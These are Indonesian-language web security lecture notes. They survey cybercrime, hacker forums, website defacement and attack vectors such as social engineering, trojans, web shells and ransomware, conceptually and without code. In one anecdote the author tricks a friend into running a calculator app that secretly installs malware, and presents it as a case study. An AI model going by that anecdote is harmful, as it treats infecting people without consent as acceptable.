# Deep-Tech Web Security

Penulis, Pemateri : **Gun Gun Febrianza**

Event Dadakan 7 January 2021

------------


## 

# Content Tables

- Web Security
  - Cybercrime
  - Cost of Cybercrime
  - Cybercrime Adagium
  - Cybercrime Ecosystem
  - Cybercrime as a Service
  - Hackforum.net
- Website Defacement
  - Website Defacement Damage
  - Attack Vector
    - Social Engineering
    - Malicious Insiders
      - Malicious Software
      - Malicious Message
      - Infected USB Attack
      - Malware Execution
      - Remote Access Trojan (RAT)
    - File Upload Vulnerability
      - Web Shell
      - Ransomware
      - Crypto Miner
      - Botnet
    - Injection - XSS
      - XSS Attack Type
      - Innocent Code
      - Session Hijacking
      - Phising
      - XSS Cheatsheet
- Prevention & Mitigation
- Furthermore

# Web Security

**Web Security** adalah salah **branch** dalam ilmu keamanan komputer. **Web Security** fokus mengkaji keamanan suatu **Web Application** mulai dari **front-end** hingga ke **back-end**. Kajian keamanan komputer merupakan area yang kompleks karena masing-masing **branch** menjadi **integral part** untuk yang satu dan lainnya.


Sekup pembahasan **Web Security** sering kali meluas dengan area Ilmu Keamanan komputer yang lain seperti **Operating System Security**, **Application Server Security**, **Network Security**, **Social Engineering** dan hingga ke yang paling kompleks dan keren menggunakan **Artificial Intelligence**. 

Misal pada paper penelitian di bawah ini, penerapan **Machine Learning** sebagai salah satu cabang **Artificial Intelligence** untuk membaca PIN yang kita **typing** (misal) melalui ATM (Mesin Transaksi Keuangan). Metode yang digunakannya adalah **Acoustic Emanations** dengan tingkat akurasi untuk **recover** **PIN** mencapai 60%!


Contoh di atas termasuk kedalam **emerging computer security**, setiap minggu, bulan dan tahun hal hal baru muncul baik itu inovasi untuk eksploitasi keamanan komputer atau improvisasi ilmu keamanan komputer itu sendiri.

## Cybercrime

Faktor yang mempelopori masalah **web security** menjadi masalah kontemporer, karena adanya kegiatan **cybercrime**. Where there is **commerce**, there is also the risk for **cybercrime**. [1]

**Cybercrime** adalah  kriminal (**crime**) di dunia nyata yang bertransformasi ke dalam dunia maya di era **the age of information**.  

## Cost of Cybercrime

Berdasarkan laporan **Steve Morgan** dalam **technical report** nya yang berjudul **Hackerpocalypse**, estimasi **cost** kerugian yang ditimbulkan oleh **cybercrime** sampai tahun 2021 estimasinya bisa mencapai 6 Trilyun US Dollar. [2] 



## Cybercrime Adagium

Berdasarkan laporan yang berjudul **Global Economic Crime Survey**, tahun 2016 hampir 1/3 perusahaan mengalami gangguan **cybercrime**. Meskipun rata-rata 61% seorang CEO concern dengan keadaan cyber security dalam perusahaannya. [3]



## Cybercrime Ecosystem

Di bawah ini adalah value chain yang di desain agar serangan cyber attack dapat terus dilakukan.



## Cybercrime as a Service

Ekosistem di dukung oleh 24 jasa kunci  yang membuat kegiatan cybercrime menjadi permasalahan kontemporer di dunia keamanan komputer.


Sumber : [Casting The Dark Web In A New Light](https://sloanreview.mit.edu/article/casting-the-dark-web-in-a-new-light/)

## Hackforum.net

Hackforum.net adalah salah satu forum hacker berkelas yang tetap hadir sampai saat ini, forum ini terus aktif semenjak penulis masih duduk dibangku kuliah semester pertama sampai hari ini. Di bawah ini adalah contoh malwares yang diperjual belikan diforum :


Ubu adalah sub forum lainnya dengan tingkat aktivitas interaksi yang sangat tinggi :



# Website Defacement

Dalam Jurnal yang ditulis Marco dan Nik yang berjudul ***"Hacktivism dan Website Defacement : Motivation, Capabilities and Potential Threat."***, dikatakan bahwa **Hacktivism** dan **Website Defacement** seringkali memiliki keterkaitan. 

**Website Defacement** adalah serangan yang ditujukan untuk mengubah tampilan suatu **website**. 

**Website Defacement** terjadi ketika seorang **Attacker** sudah berada dalam **stage post exploitation**, **attacker** berhasil melakukan **privilege escalation** menembus **server**, mengubah tampilan halaman depan (**index**) pada **Web Server**.

Di bawah ini adalah salah satu **website** pemerintahan Tiongkok yang berhasil di **deface** oleh entitas yang perannya adalah seorang **hacktivist**, motivasi seorang **hacktivist** adalah permasalahan politik. [4] 



Source : https://www.wsj.com/articles/BL-CJB-15573

## Website Defacement Damage

**Website Defacement** termasuk kedalam serangan berbahaya karena **attacker** sudah berada dalam **stage** memiliki probabilitas tinggi kontrol penuh terhadap **remote server**. Kerugian yang dapat ditimbulkan sudah saya **high;ight** apa saja yang paling **prominent**, diantaranya adalah :

1. Bocornya informasi **customer** dapat menimbulkan tuntutan hukum
2. Kekayaan Intelektual berpotensi menimbulkan kerugian bisnis
3. Data keuangan menyebar menuju kompetitor atau umum
4. **Arbitraty Attack** seperti **phising** melalui website yang telah dikontrol untuk mencuri data **customer**



**Website Defacement** dilakukan sebagai representasi identitas (meskipun sebagian besar **anonymous**) dan status bahwa **attacker** telah menembus **Web Server** milik korban.

## Attack Vector

**Attack Vector** adalah metode yang digunakan seorang penyerang untuk mendapatkan hak akses secara ilegal pada sistem komputer lokal atau **Remote Server**. Cara berpikir seorang **attacker** saat mencoba menyerang sistem milik korban di analogikan seperti memecahkan jalan keluar dalam sebuah **maze**.



Segala metode dan kemungkinan akan dicoba sampai sistem keamanan berhasil dijebol.

Jika anda mengalami pristiwa **Website Defacement**, maka anda telah menghadapi serangan yang sangat **powerful**. Kenapa **Powerful** ? penyebabnya sangat banyak sekali dan anda harus melakukan **tracing** sumber penyebabnya. 

### Social Engineering

*You, your admin, or your staff are tricked by someone internal or external*. Tahapnya dapat terjadi ketika anda, admin atau pegawai anda berhasil dikelabui untuk menuruti keinginan penyerang menggunakan **social engineering**. Sehingga sedikit demi sedikit atau sekaligus penyerang akhirnya memiliki akses penuh terhadap sistem.

### Malicious Insiders

**Website Defacement** juga dapat terjadi dimulai dari serangan **Malicious Insiders**.

Seseorang yang berada di dekat anda, teman anda atau pegawai anda sendiri menjadi **Evil Actor** yang berhasil mengelabui anda baik itu menggunakan **Social Engineering** atau **Direct Physical Access**, pada **computer/laptop** yang sedang anda, admin atau staff gunakan untuk melakukan infeksi **Malware** (**Malicious Software**).


*Credit to MalCare the origin owner of this great picture.*

**File** atau **software** yang telah terinfeksi **virus**, (*or Technically, "Binding" virus*) atau **malware** secara langsung di infeksikan pada **computer/laptop** anda, admin atau staff. 

#### Malicious Software

Sewaktu kuliah saya membuat aplikasi **dekstop calculator**, namun setiap tombol dalam **calculator** menyimpan fungsi lain dibelakang layar, salah satunya adalah **drop** **malware** untuk infeksi sistem operasi. Alih-alih saya melakukan **social engineering** meminta teman yang masih awam untuk menguji aplikasi **dekstop** **calculator** saya.

Tanpa beliau sadari, **malware** yang saya buat akhirnya menginfeksi sistem operasinya. **Case study** ini adalah salah satu contoh tugas kuliah saya waktu lampau.



#### Malicious Message

Serangan juga dapat dilakukan melalui **social media** atau **instant message** seperti **whats app dekstop**, sebagai contoh **sender** sebagai **malicious insiders** meminta anda untuk **download** dan mengeksekusi **software** tertentu. 



#### Infected USB Attack

Selain dari **malicious message**, **malicious insiders** juga dapat menggunakan USB yang telah terinfeksi **malware** untuk dipasang ke dalam komputer atau laptop yang anda, admin anda atau staff anda. Ada **Autorun** dan konten yang bisa menjadi eksekutor sistem operasi terinfeksi.



Beberapa tahun lalu penulis sempat membuat **Open Source USB Security Software**, projectnya **open source** jika anda ingin mempelajarinya bisa anda cek disini :

https://github.com/gungunfebrianza/USB-Disk-Security



**Software** ini dapat memblokir **autorun** dan membaca isi **autorun** dalam USB.

#### Malware Execution

Jadi **malicious insiders**, akan menggunakan **malwares**, **malicious message**, atau **infected USB Attack** (**Direct Physical Access**) agar akhirnya mampu mengeksekusi **Trojan**. Karena pada kasus ini **attacker** ingin melakukan **Website Defacement**, **attacker** akan berusaha menginfeksikan **Trojan** pada sistem komputer anda, admin anda, atau staff anda.

Tujuan akhirnya adalah mengetahui akses-akses menuju **server** yang anda kelola, baik melalui **SSH account** atau **FTP**.



#### Remote Access Trojan (RAT)

Kemampuan **Trojan** sangat powerful ketika ia telah sukses menginfeksi sistem operasi dalam komputer/laptop anda, admin anda atau staff-staff anda. **Trojan** bisa lebih dari sekedar mendapatkan **FTP** atau **SSH** menuju **server** yang dipegang oleh anda, admin anda atau staff-staff anda untuk aksi **Website Defacement**.



Di bawah ini adalah beberapa penampakan **software Trojan** :



Terdapat fitur yang menjadi ciri khas seperti **Keylogger**, **File Manager**, **Recording** dan sebagainya. **Trojan** ini akan memproduksi **stubs** yang selanjutnya diinfeksikan menuju sistem anda, admin anda dan staff-staff anda oleh **malicious insiders**.


Pada **Malware** **Tojan** varian lain.. terdapat fitur yang dapat mengirimkan pesan palsu sebagai hiburan si **cracker system**.


### File Upload Vulnerability

**Website Defacement** dapat terjadi karena kerentanan dalam fitur **File Upload**.

**File Upload** adalah salah satu fitur yang secara umum dimiliki oleh suatu **Web Application**. Serangan ini dilakukan secara langsung melalui fitur **upload** dan sangat efektif jika berhasil. 



Sebelumnya anda telah mempelajari cara kerja **trojan**, jika **malicious script** dengan **payload** kemampuan seperti **trojan** berhasil di tanam maka **attacker** memiliki kemampuan **powerful** pada **Remote Server**. 

#### Web Shell

**Web Shell** sering kali disebut dengan **Web Server Malware**, sebuah **malicious script** yang digunakan **attacker** agar **attacker** memiliki **Persistent Control** terhadap suatu **Remote Server**. 



Eksploitasi lebih jauh dapat dilakukan, jika terdapat miskonfigurasi pada **server**, atau **OS server** belum di **update** dan terdapat **CVE** (**Common Vulnerability Exposure**), **privilege escalation** dapat dilakukan dalam **server** untuk menjadi **superuser**. Seluruh **resources** telah di **capture** oleh **attacker**. 



#### Ransomware

Dalam bahasa yang lebih luar fitur **upload** yang dimiliki oleh **webshell** bisa digunakan untuk mengeksekusi **Ransomware, the ultimate killer enterprise**. 

**Ransomware** adalah bisnis yang sangat menggiurkan dari kacamata **attacker** antagonis. **Ryuk** **Ransomware** adalah salah satu contoh bagaimana sekali serangan **ransomware** pemiliknya mendapat keuntungan mencapai 34 juta US Dollar. [5] 

**Theoritically**, **Historically**, **ransomware** dapat menyerang sistem operasi **windows**, **linux**, **macos**.



#### Crypto Miner

Selain **ransomware** adalah diam-diam **server** yang anda gunakan, **resources** yang dimilikinya akan digunakan untuk melakukan mining **bitcoin** atau **alternative coin** lainnya. Sehingga **attacker** mendapatkan keuntungan **asset digital** yang memiliki nilai **moneter**.

#### Botnet

Alternatif lain yang dapat dilakukan **attacker** adalah mengubah **server** yang anda miliki menjadi **zombie** untuk menyerang sistem lainnya. Seperti melakukan **DDoS Attack**. 

**Web Shell** dapat ditulis menggunakan berbagai bahasa pemrograman, PHP paling menonjol karena banyak sekali penggunanya baik dari sisi pengembang **Web Application** ataupun **Attacker**. Dapat digunakan untuk upload dan eksekusi **malware** yang ditulis menggunakan bahasa pemrograman lainnya seperti C++ yang sangat efektif.

Potensi kerusakan dapat menimpa anda apapun **runtime engine** untuk **Web Server** yang anda gunakan, atau **Content Management System (CMS)** yang anda gunakan. Jika anda pengguna **CMS Wordpress**, kerentanan sistem dapat terjadi di sisi **CMS** itu sendiri atau melalui **plugins** yang anda gunakan.

**In Early Development**, mostly anti viruses tidak bisa mendeteksi **Web Shell** sebagai **Virus** karena **Web** **Shell** bukan **file executable**, **nowadays anti viruses** sudah memiliki kemampuan **heuristic** yang lebih **advance**. Seperti **Static Code Analysis** untuk mendeteksi **Web Shell**.

